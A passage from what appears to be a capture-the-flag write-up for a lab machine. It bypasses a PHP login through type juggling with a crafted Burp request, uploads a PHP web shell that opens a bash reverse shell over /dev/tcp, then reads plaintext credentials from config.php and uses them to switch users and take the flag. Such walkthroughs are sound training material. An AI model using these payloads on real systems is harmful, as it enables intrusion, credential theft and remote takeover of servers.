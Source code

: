 > PHP *type juggling* vulnerabilities arise when loose comparison (== or !=) is employed 
> instead of strict comparison (=== or !==) in an area where the attacker can control 
> one of the variables being compared. This vulnerability can result in the application 
> returning an unintended answer to the true or false statement, and can lead to severe 
> authorization and/or authentication bugs.

- Using Burp let's modify the login request with

```
POST /login/login.php HTTP/1.1
Host: 10.129.92.156
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)
Accept: text/html,application/xhtml+xml,application/xml;
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.129.92.156
Connection: close
Referer: http://10.129.92.156/login/login.php
Cookie: PHPSESSID=e2l2pvg7ejjb5oe28p8iumjne1
Upgrade-Insecure-Requests: 1

username=admin&password[]=foo
```

- We have logged successfully as the admin
- Moreover, we have been redirected to the `upload.php` page

---

## ARBITRARY FILE UPLOAD

- Let's try to upload any file from the local machine
- If we manage to perform another directory enumeration we find another folder `_upload`
- Navigating to that folder we should see the file previously uploaded
- At this point we can create a simple PHP file named `script.php`

```php
<?php system("/bin/bash -c 'exec bash -i &> /dev/tcp/{MyIP}/{remote-port} <&1'") ?>
```

- We can upload that file
- Then we create a simple netcat listener
- Navigate to the `_upload` folder and click on the `script.php` file
- We managed to get a remote shell on the target machine
- Now we can give this commands

```bash
www-data@base:/var/www/html$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@base:/var/www/html$ export TERM=xterm
www-data@base:/var/www/html$ cd ./login/
www-data@base:/var/www/html$ cat config.php

<?php
$username = "admin";
$password = "thisisagoodpassword";

www-data@base:/var/www/html$ ls /home/
john

www-data@base:/var/www/html$ su john
Password: thisisagoodpassword

john@base:/var/www/html$ cat /home/john/user.txt
f54846c258f3b4612f78a819573d158e
```
